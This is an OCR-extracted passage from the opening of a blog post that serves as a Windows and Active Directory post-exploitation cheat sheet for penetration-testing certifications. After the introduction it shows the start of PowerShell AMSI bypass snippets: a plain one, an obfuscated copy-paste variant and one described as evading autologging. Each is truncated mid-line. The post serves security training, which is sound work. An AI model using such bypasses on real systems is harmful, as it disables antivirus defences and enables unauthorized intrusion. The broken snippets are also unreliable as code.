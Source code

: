 Updated March

th

This blog post has been updated based on some tools and
techniques from Offensive Security’s PEN
course for the
accompanying OSEP certification Notable changes have been
made in the sections on delegation inter forest exploitation and
lateral movement through MSSQL servers Some other changes
and clarifications have been made throughout the post
Since I recently completed my CRTP and CRTE exams I decided
to compile a list of my most used techniques and commands for
Microsoft Windows and Active Directory post exploitation It is
largely aimed at completing these two certifications but should
be useful in a lot of cases when dealing with Windows / AD
exploitation
That being said it is far from an exhaustive list If you feel any
important tips tricks commands or techniques are missing from
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

2/31

this list just get in touch I will try to keep it updated as much as
possible!
Many items of this list are shamelessly stolen from Nikhil Mittal
and the CRTP/CRTE curricula so big thanks to them! If you are
looking for the cheat sheet and command reference I used for
OSCP please refer to this post
Note I tried to highlight some poor OpSec choices for typical red
teaming engagements with 🚩 I will likely have missed some
though so understand what you are running before you run it!

General
PowerShell AMSI Bypass
Patching AMSI will help bypass AV warnings triggered when
executing PowerShell scripts that are marked as malicious such
as PowerView Do not use as is in covert operations as they will
get flagged 🚩 Obfuscate or even better eliminate the need for
an AMSI bypass altogether by altering your scripts to beat
signature based detection
‘Plain’ AMSI bypass

[Ref].Assembly.GetType('System.Management.Automation.Ams

Obfuscation example for copy paste purposes
sET-ItEM ( 'V'+'aR' +

'IA' + 'blE:1q2'

+ 'uZx'

) ( [T

Another bypass which is not detected by PowerShell
autologging
[Delegate]::CreateDelegate(("Func``3[String, $(([String]
